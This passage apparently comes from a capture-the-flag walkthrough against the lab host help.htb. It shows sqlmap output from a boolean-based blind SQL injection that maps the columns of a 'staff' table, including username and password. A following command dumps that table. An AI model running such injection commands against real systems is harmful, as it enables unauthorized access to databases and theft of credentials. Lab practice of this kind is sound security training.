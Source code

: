 ```bash
...
[14:41:18] [INFO] retrieved: 5
[14:41:19] [INFO] retrieved: admin           
[14:41:19] [INFO] retrieving the length of query output
[14:41:19] [INFO] retrieved: 6
[14:41:21] [INFO] retrieved: int(1)           
[14:41:21] [INFO] retrieving the length of query output
[14:41:21] [INFO] retrieved: 6
[14:41:24] [INFO] retrieved: status           
[14:41:24] [INFO] retrieving the length of query output
[14:41:24] [INFO] retrieved: 24
[14:41:28] [INFO] retrieved: enum('Enable','Disable')             
Database: support
Table: staff
[14 columns]
+------------------------+--------------------------+
| Column                 | Type                     |
+------------------------+--------------------------+
| admin                  | int(1)                   |
| status                 | enum('Enable','Disable') |
| avatar                 | varchar(200)             |
| department             | text                     |
| email                  | varchar(255)             |
| fullname               | varchar(100)             |
| id                     | int(11)                  |
| last_login             | int(11)                  |
| login                  | int(11)                  |
| newticket_notification | smallint(1)              |
| password               | varchar(255)             |
| signature              | mediumtext               |
| timezone               | varchar(255)             |
| username               | varchar(255)             |
+------------------------+--------------------------+

[14:41:28] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/help.htb'

[*] ending @ 14:41:28 /2025-08-27/

----------------------------------------------------------------------
$  sqlmap -r ticket.req --batch --thread 10 -D support -T staff --dump   
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.3.3#dev}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:41:39 /2025-08-27/

[14:41:39] [INFO] parsing HTTP request from 'ticket.req'
[14:41:39] [INFO] resuming back-end DBMS 'mysql' 
[14:41:39] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```
